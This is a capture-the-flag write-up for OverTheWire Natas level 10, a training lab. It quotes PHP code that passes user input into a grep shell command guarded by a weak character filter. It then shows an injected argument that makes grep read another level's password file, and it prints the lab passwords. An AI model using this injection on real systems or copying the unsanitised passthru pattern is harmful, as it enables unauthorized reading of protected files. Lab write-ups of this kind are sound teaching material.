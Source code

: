 # Natas Level 10

```bash
Username: natas10
Password: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu
URL:      http://natas10.natas.labs.overthewire.org
```
We enter the site, and see the following page:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas10.png" />
    <div align="center">Natas 10</div>
</figure>

Clicking on the "View sourcecode" link:
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas10-view-sourcecode.png" />
    <div align="center">Natas 10 - View sourcecode</div>
</figure>

The script is very similar to the last one, except the character filtering:
```php
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
```
We need to avoid these 3 characters:
* ;
* |
* &

If we send the folloing: "1 /etc/natas_webpass/natas11".

This will result in the following [command](http://natas10.natas.labs.overthewire.org/?needle=1+%2Fetc%2Fnatas_webpass%2Fnatas11&amp;submit=Search):
```bash
grep -i 1 /etc/natas_webpass/natas11 dictionary.txt
```

Which will search for the pattern: "1" in both files: /etc/natas_webpass/natas11 and dictionary.txt
<figure>
    <img src="https://raw.githubusercontent.com/sefi-roee/CTFs-Writeups/master/OverTheWire/Natas/images/natas10-code-injection.png" />
    <div align="center">Natas 10 - Code injection</div>
</figure>

We were lucky, the password contains the substring: "1"

We got the password for the next level: **U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK**